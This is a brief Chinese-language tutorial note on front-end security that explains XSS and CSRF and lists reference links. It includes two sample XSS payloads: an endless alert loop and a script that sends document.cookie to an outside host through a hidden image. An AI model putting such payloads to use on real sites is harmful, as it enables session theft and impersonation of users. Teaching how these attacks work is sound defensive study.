 # 前端安全问题总结

#### XSS：跨站脚本（Cross site scripting，通常称为XSS）

侧重脚本注入，比如通过发帖行为将一段JavaScript脚本注入到网站中执行

1. 注入的脚本可以破坏网站的正常使用如下面代码

```html
<script type="text/javascript">
while(true) {
  alert('你关不掉我');
}
</script>
```

2. 注入脚本也可以窃取登录用户的隐私数据或Token令牌，进而冒充用户进行非法活动

```html
<script type="text/javascript">
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 img 用于通讯
    var img = document.createElement("img");
    img.height = 0;
    img.width = 0;
    img.style.display = "none";
    img.src = xssURI;
    // 开工
    document.body.appendChild(img);
})(window, document);
</script>
```

#### CSRF：跨站请求伪造（Cross site request forgery）

冒充用户发起请求（在用户不知情的情况下）完成一些违背用户意愿的行为

从上面第二类行为可知：以XSS为基础可以完成CSRF攻击。但CSRF并不是只有通过XSS一种方式，只要是伪造了用户的请求，都可以算为CSRF攻击。

比如网站没有来自用户的请求进行权限校验，其他人就可以分析网站请求获取部门功能的请求地址，随意发起请求，修改网站数据。

### 参考

* [Web 安全之跨站脚本攻击（XSS）](https://mp.weixin.qq.com/s?__biz=MzAxODE2MjM1MA==&amp;mid=2651552261&amp;idx=2&amp;sn=fa842a4dfa44d509262382c9397590ce&amp;chksm=8025adc4b75224d26e5599d9150fd71c152535e2e84d1d6bfbdd97356c9f82f57173f31da586&amp;mpshare=1&amp;scene=1&amp;srcid=0616CxK8fqUbeXxF4DJ5zkeV#)
* [JTalk 第八期 前端安全大起底 总结](https://juejin.im/post/5b1521b1f265da6e4a6bd24f)
* [用大白话谈谈XSS与CSRF](https://segmentfault.com/a/1190000007059639)
* [浅说 XSS 和 CSRF](https://github.com/dwqs/blog/issues/68)
* [浏览器专题之安全篇](https://bubuzou.com/2020/12/04/web-security/)